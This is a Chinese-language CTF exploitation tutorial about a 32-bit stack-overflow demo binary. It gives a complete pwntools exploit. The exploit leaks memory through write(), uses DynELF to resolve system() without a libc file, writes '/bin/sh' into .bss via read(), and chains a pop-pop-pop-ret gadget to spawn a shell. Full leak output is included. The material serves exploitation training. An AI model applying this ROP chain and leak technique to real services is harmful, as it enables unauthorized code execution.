

Author:wnagzihxa1n
E-Mail:wnagzihxa1n@gmail.com
上一篇说过，如果给了libc.so，结合内存地址任意读漏洞，可以使用偏移来找到system和"/bin/sh"在内存中的地址
但是如果没给libc.so，那怎么办呢？在学到这个地方的时候，大概都可以有种感觉，就是漏洞的组合非常重要，而Shellcode怎么构造，前期的数据怎么处理，也看漏洞
同样的漏洞也有不一样的利用方法，千万不要局限在套漏洞利用方法上面，就像蒸米写的文章里的漏洞一样，如果提供了libc.so文件，但是漏洞却不是那个呢？如果漏洞是那个，但是没有提供libc.so，也没有任意读漏洞呢？
所以先学习蒸米的例子，然后我拿某次比赛中的一个题目来分析一下另一种情况
代码依旧如下
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
void Overflow()
{
char buffer[128];
read(STDIN_FILENO, buffer, 256);
}
int main()
{
Overflow();
write(STDOUT_FILENO, "Hello,World\n", 13);
return 0;
}
没有提供libc.so，但是我们有一个内存任意读的漏洞，按理来说，我们是可以把整个内存全部dump出来的，这个方法以前多次用到，第一次接触的话是不是惊呆了
当我们dump出整个内存后，可以在整个dump出的数据里搜索libc.so
还有一个题目，当时没给ELF文件，也没有libc.so，但是测出了一个任意读漏洞，所以后来写了个脚本，大概确定了一下范围，然后把片内存数据全部dump出来了，接着搜索那片内存，找到ELF所在，再把ELF拷贝出来分析，分析的时候发现很多函数调用都是地址，相当坑爹，好在拿到了程序也是比较欣慰的，很多函数可以根据上下文和参数形式进行猜测是哪个函数
突然就扯远了，就是说每次稍微有点规模的比赛，一般题目不会是自己以前做过的，漏洞的组合利用，如何去思考利用方式，是关键，也是很有意思的地方，每次跟其他师傅交流解题思路，每次都是很惊讶原来还有这么猥琐的利用方法，涨姿势！
那么取利用这个漏洞的脚本就是
#!/usr/bin/env python
import pwn
# libc = pwn.ELF('libc.so')
elf_Demo = pwn.ELF('Demo')
attack = pwn.process('./Demo')
# attack = remote('127.0.0.1', 23333)
plt_write = elf_Demo.symbols['write']
print '###### plt_write = ' + hex(plt_write)
got_write = elf_Demo.got['write']
print '###### got_write = ' + hex(got_write)
overflow_addr = 0x08048471
print '###### overflow_addr = ' + hex(overflow_addr)
def leak(address):
payload = 'a'*140
payload += pwn.p32(plt_write)
payload += pwn.p32(overflow_addr)
payload += pwn.p32(1)
payload += pwn.p32(address)
payload += pwn.p32(4)
attack.send(payload)
data = attack.recv(4)
# print hex(pwn.u32(data))
print "%#x => %s" % (address, (data or '').encode('hex'))
return data
d = pwn.DynELF(leak, elf=pwn.ELF('Demo'))
addr_system = d.lookup("system", "libc")
print "###### addr_system = " + hex(addr_system)
我们泄露出一堆数据后，搜索system函数的地址
wnagzihxain@toT0C:~$ python Exp.py
[!] Pwntools does not support 32-bit Python. Use a 64-bit release.
[*] '/home/wnagzihxain/Demo'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
[+] Starting local process './Demo': pid 12780
###### plt_write = 0x8048320
###### got_write = 0x804a014
###### overflow_addr = 0x8048471
0x8048000 => 7f454c46
[+] Loading from '/home/wnagzihxain/Demo': 0xb776f918
0x804a004 => 18f976b7
[+] Resolving 'system' in 'libc.so': 0xb776f918
0x8049f14 => 01000000
0x8049f1c => 0c000000
0x8049f24 => 0d000000
0x8049f2c => 19000000
0x8049f34 => 1b000000
0x8049f3c => 1a000000
0x8049f44 => 1c000000
0x8049f4c => f5feff6f
0x8049f54 => 05000000
0x8049f5c => 06000000
0x8049f64 => 0a000000
0x8049f6c => 0b000000
0x8049f74 => 15000000
0x8049f7c => 03000000
0x8049f80 => 00a00408
0xb776f928 => 00000000
0xb776f91c => 04fc76b7
0xb776fc04 => 00000000
0xb776f924 => 08fc76b7
0xb776fc0c => 74fe76b7
0xb776fe74 => 00000000
0xb776fc14 => 586874b7
0xb774685c => 386874b7
0xb7746838 => 2f6c6962
0xb774683c => 2f693338
0xb7746840 => 362d6c69
0xb7746844 => 6e75782d
0xb7746848 => 676e752f
0xb774684c => 6c696263
0xb7746850 => 2e736f2e
0xb7746854 => 36000000
0xb7746858 => 009057b7
[!] No ELF provided. Leaking is much faster if you have a copy of the ELF being leaked.
0xb7579000 => 7f454c46
0xb7746860 => b0ad72b7
0xb7579004 => 01010103
0xb772adb0 => 01000000
0xb772adb8 => 0e000000
0xb772adc0 => 0c000000
0xb772adc8 => 19000000
0xb772add0 => 1b000000
0xb772add8 => 04000000
0xb772ade0 => f5feff6f
0xb772ade8 => 05000000
0xb772adf0 => 06000000
0xb772adf8 => 0a000000
0xb772ae00 => 0b000000
0xb772ae08 => 03000000
0xb772ae0c => 00b072b7
0xb772b004 => 586874b7
0xb7746868 => 08fc76b7
0xb776fc18 => 18f976b7
0xb7579180 => 474e5500
0xb7579184 => 94ab3e04
0xb7579188 => 6784e5da
0xb757918c => 65532a9a
0xb7579190 => ded8555c
0xb7579194 => 3bdc3778
[*] Trying lookup based on Build ID: 94ab3e046784e5da65532a9aded8555c3bdc3778
[*] Downloading data from GitHub
[-] Downloading 'https://gitlab.com/libcdb/libcdb/raw/master/hashes/build_id/94ab3e046784e5da65532a9aded8555c3bdc3778': Got code 404
[*] .gnu.hash/.hash, .strtab and .symtab offsets
[*] Found DT_GNU_HASH at 0xb772ade0
0xb772ade4 => b89157b7
[*] Found DT_STRTAB at 0xb772ade8
0xb772adec => 186658b7
[*] Found DT_SYMTAB at 0xb772adf0
0xb772adf4 => 28cf57b7
[*] .gnu.hash parms
0xb75791b8 => f3030000
0xb75791bc => 0a000000
0xb75791c0 => 00020000
[*] hash chain index
0xb757a390 => b1050000
[*] hash chain
0xb757c030 => 8ae4ee1c
0xb7582a38 => 48310000
0xb7589760 => 73797374
0xb7589764 => 656d0074
0xb7582a3c => a0ad0300
###### addr_system = 0xb75b3da0
[*] Stopped process './Demo' (pid 12780)
泄露出system函数的地址是0xb75b3da0，那么我们此时尝试搜索"/bin/sh"字符串
addr_system = d.lookup("\"/bin/sh\"", "libc")
print addr_system
这样。。。。。。？？？？？？
None
这么暴力是不可以的，江是要负泽人的，你民白吗？
那么，我们就要另寻出路，我们除了write函数之外，还有一个read，那么我们是可以调用read函数的，把"/bin/sh"写到.bss段
首先我们获取.bss段的地址，可以用readelf命令，也可以用IDA

就是这么简单粗暴
那么初步的Payload构造
payload = 140 * 'a'
payload += pwn.p32(plt_read)
payload += pwn.p32(0x********)
payload += pwn.p32(0)
payload += pwn.p32(addr_bss)
payload += pwn.p32(8)
我们先调用一波read函数，将"/bin/sh"写进.bss段，这个时候需要将"/bin/sh"发送过去，会有一个交互
写完后，程序返回哪里是个问题，写进去后，需要调用system函数，但是此时栈顶多了三个read函数的变量，所以，就如同蒸米所说的，需要pop pop pop retn，先把三个参数弹出去，那么在三个参数下面是system函数，就可以返回到system函数执行，然后Payload接着构造即可
蒸米找pop pop pop retn使用obdjump，我直接使用IDA了
那么构造Payload，前面先写"/bin/sh"，然后返回到pop pop pop retn处理栈，接着返回到system函数执行，弹回shell
payload_final = 140 * 'a'
payload_final += pwn.p32(plt_read)
payload_final += pwn.p32(pppr)
payload_final += pwn.p32(0)
payload_final += pwn.p32(addr_bss)
payload_final += pwn.p32(8)
payload_final += pwn.p32(addr_system)
payload_final += pwn.p32(overflow_addr)
payload_final += pwn.p32(addr_bss)
最后的EXP
#!/usr/bin/env python
import pwn
elf_Demo = pwn.ELF('Demo')
attack = pwn.process('./Demo')
# attack = remote('127.0.0.1', 23333)
plt_read = elf_Demo.plt['read']
plt_write = elf_Demo.plt['write']
got_write = elf_Demo.got['write']
overflow_addr = 0x08048471
addr_bss = 0x0804a020
pppr = 0x080484F9
def leak(address):
payload = 'a'*140
payload += pwn.p32(plt_write)
payload += pwn.p32(overflow_addr)
payload += pwn.p32(1)
payload += pwn.p32(address)
payload += pwn.p32(4)
attack.send(payload)
data = attack.recv(4)
return data
d = pwn.DynELF(leak, elf=pwn.ELF('./Demo'))
addr_system = d.lookup("system", "libc")
payload = 140 * 'a'
payload += pwn.p32(plt_write)
payload += pwn.p32(overflow_addr)
payload += pwn.p32(1)
payload += pwn.p32(got_write)
payload += pwn.p32(4)
print "[1] Sending payload"
attack.send(payload)
print "[2] Receiving addr_write"
addr_write = pwn.u32(attack.recv(4))
payload_final = 140 * 'a'
payload_final += pwn.p32(plt_read)
payload_final += pwn.p32(pppr)
payload_final += pwn.p32(0)
payload_final += pwn.p32(addr_bss)
payload_final += pwn.p32(8)
payload_final += pwn.p32(addr_system)
payload_final += pwn.p32(overflow_addr)
payload_final += pwn.p32(addr_bss)
print "[3] Sending payload_final"
attack.send(payload_final)
attack.send("/bin/sh\0")
attack.interactive()
最后弹回shell
$ whoami
wnagzihxain
整个过程还是比较容易懂的，最后还是强调一点，要根据可利用的漏洞尽可能获取到想要获取的数据，比如leak，关键在于每个漏洞点的利用组合